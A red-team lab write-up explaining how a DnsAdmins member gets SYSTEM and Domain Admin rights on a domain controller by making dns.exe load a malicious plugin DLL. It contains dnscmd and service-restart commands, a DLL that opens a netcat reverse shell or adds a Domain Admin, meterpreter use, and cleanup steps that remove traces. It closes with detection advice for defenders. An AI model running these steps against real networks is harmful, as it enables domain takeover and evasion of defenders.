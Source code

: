 ```yaml
---
layout: post
title: "2024-06-18-from dnsadmins to system to domain compromise"
date: 2024-06-18
categories: active-directory-kerberos-abuse
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /from-dnsadmins-to-system-to-domain-compromise/
---
```


# From DnsAdmins to SYSTEM to Domain Compromise

In this lab I'm trying to get code execution with `SYSTEM` level privileges on a DC that runs a DNS service as originally researched by Shay Ber [here](https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83).

The attack relies on a [DLL injection](../../offensive-security/code-injection-process-injection/dll-injection.md) into the dns service running as SYSTEM on the DNS server which most of the time is on a Domain Contoller.

## Execution

For the attack to work, we need to have compromised a user that belongs to a `DnsAdmins` group on a domain. Luckily, our user `spotless` already belongs to the said group:

```csharp
 net user spotless /domain
```

![](<../../.gitbook/assets/Screenshot from 2018-11-11 16-55-52.png>)

### Building the DLL

As mentioned earlier, we need to build a DNS plugin DLL that we will be injecting into a dns.exe process on a victim DNS server (DC). Below is a screenshot of the DLL exported functions that are expected by the dns.exe binary when loading a plugin DLL. I have also added a simple system command to invoke a netcat reverse shell once the plugin is initialized and code is executed.&#x20;

I then tested the function with rundll32 as shown below, which returned a reverse shell to my attacking machine - code gets executed, shell gets spawned:

```csharp
rundll32.exe .\dnsprivesc.dll,DnsPluginInitialize
```

![](<../../.gitbook/assets/Screenshot from 2018-11-11 17-30-47.png>)

### Abuse DNS with dnscmd

Now that we have the DLL and we checked that it is working, we can ask the victim `DC01` to load our malicious DLL (from the victim controlled network share on host 10.0.0.2) next time the service starts (or when the attacker restarts it):

{% code title="attacker@victim.memberOfDnsAdmins" %}
```csharp
dnscmd dc01 /config /serverlevelplugindll \\10.0.0.2\tools\dns-priv\dnsprivesc.dll
```
{% endcode %}

The below looks promising and suggests the request to load our malicious DLL was successful:

![](<../../.gitbook/assets/Screenshot from 2018-11-11 21-55-59.png>)

```
`dnscmd` is a windows utility that allows people with `DnsAdmins` privileges manage the DNS server. The utility can be installed by adding `DNS Server Tools` to your system as shown in the below screengrab.
```

![](<../../.gitbook/assets/Screenshot from 2018-11-11 17-04-48.png>)

The below command on the victim further suggests that our request was successful and the registry value `ServerLevelPluginDll` points to our malicious DLL:

```csharp
# note that as attacker you cannot check this on a DC since you do not have yet access to the system. Because this is a lab environment, I am checking the registry from the DC itself.
Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\DNS\Parameters\ -Name ServerLevelPluginDll
```

![](<../../.gitbook/assets/Screenshot from 2018-11-11 21-51-21.png>)

### Getting code execution with NT\SYSTEM

Now the next time dns service starts, our malicious DLL should be loaded to the dns.exe process and a reverse shell should be sent back to our attacking system, so let's go and restart the DNS service:

{% code title="attacker@victim" %}
```csharp
sc.exe \\dc01 stop dns
sc.exe \\dc01 start dns
```
{% endcode %}

By this point, I should have received a reverse shell, but unfortunately, I did not.

After checking the DNS logs on the `DC01` I saw the below error, suggesting there was something off with my DLL:

![](<../../.gitbook/assets/Screenshot from 2018-11-11 21-45-51.png>)

I tried exporting functions with C++ name mangling and without and although the DLL exports seemed to be OK per CFF Explorer, I was still not able to make the DC load my malicious DLL successfully without corrupting the dns service:

![](<../../.gitbook/assets/Screenshot from 2018-11-11 21-46-09.png>)

```
Although I was not able to correctly inject the DLL without crashing the dns service in my lab environment, I still decided to publish these notes, in case they will be stubmled upon by a reader who had successfully injected a custom DLL and who would like to share their thoughts on what I am overlooking as this would be much appreciated.
```

Since I could not get my malicious DLL injected into the dns.exe successfully, I thought of trying to inject the meterpreter payload using the same technique.

It can be observed, that the DLL with meterpreter payloads gets ineed loaded and we receive a call back attempt from meterpreter, but since the DLL does not conform to the required format (does not have required exported functions), the session dies immediately (or this is what I thought initially - as you will later see, it turns out I was simply using a wrong listener):

![](<../../.gitbook/assets/Screenshot from 2018-11-11 22-33-58.png>)

Since the above suggests that the the DLL code still got executed, we can try asking the DLL to execute the following on the DC:

```csharp
net group 'domain admins' spotless /add /domain
```

```
dnsprivesc.dll
```

![](<../../.gitbook/assets/Screenshot from 2018-11-11 22-55-35.png>)

Before restarting the DNS service and getting our malicious DLL executed, let's make sure our attacking user `spotless` is not in `Domain Admins` group:

![](<../../.gitbook/assets/Screenshot from 2018-11-11 23-03-40.png>)

Now if we restart the DNS service which will load our `addDA.dll`, we see that the user `spotless` is now a member of the `Domain Admins`:

![](<../../.gitbook/assets/Screenshot from 2018-11-11 23-03-52.png>)

```
Warning: at this time the DNS service is probably crashed, so be warned - using DLLs that do not conform to the plugin requirements is not stealthy and this type of activity probably will get picked up by defenders really quickly unless you can restore the DNS service immediately.
```

Below confirms that the dns service is down, however we can still access the DC C$ share by DC's IP from our spotless user, meaning that we have escalated privileges to DA:

![](<../../.gitbook/assets/Screenshot from 2018-11-11 23-09-23.png>)

One could think about scripting/automating the after-attack cleanup and the DNS service restoration and include the required code in the same malicious DLL that creates a backdoor user in the first place:

{% code title="attacker@victim" %}
```csharp
reg query \\10.0.0.6\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters
reg delete \\10.0.0.6\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters /v ServerLevelPluginDll
sc.exe \\10.0.0.6 stop dns
sc.exe \\10.0.0.6 start dns
//remove any other traces/logs
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2018-11-11 23-21-55.png>)

Once the DNS service is restored, we can now access the C$ using DC01 computer name:

![](<../../.gitbook/assets/Screenshot from 2018-11-11 23-24-44.png>)

### Bonus Reminder

It turns out that the reason the meterpreter payload failed because of a classic mistake of not using the right listener for staged/non-staged payloads - always double check your payloads and make sure that the listeners are able to handle the callbacks.

Once I set up the listener correctly, the meterpreter shell came back as expected - note that the dns.exe service still gets corrupted.

![](<../../.gitbook/assets/Peek 2018-11-12 21-58.gif>)

## Observations

As a defender, one should considering monitoring for suspicious child processes (rundll32, powershell, cmd, net, etc.) spawned by the dns.exe on DCs:

![](<../../.gitbook/assets/Screenshot from 2018-11-12 22-09-43.png>)

Also, you may want to consider monitoring `HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters` value `ServerLevelPluginDll`, especially if it begins with string `\\` in the data field.

## Update #1

I was pointed out by a reader that a video by ippsec [https://youtu.be/8KJebvmd1Fk?t=3130](https://youtu.be/8KJebvmd1Fk?t=3130) explains why the dns service was crashing, so please check the video, but if you are too lazy, the answer is provided here too.

You need to execute your code in a **new thread** (this was the missing piece in my first attempt that made the service crash) in the exported DLL function `DnsPluginInitialize`, which is the function that gets invoked, when the dnscmd loads our malicious DNS service plugin DLL.

## References

{% embed url="https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83" %}

{% embed url="http://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html" %}

{% embed url="https://github.com/dim0x69/dns-exe-persistance" %}
@spotheplanet
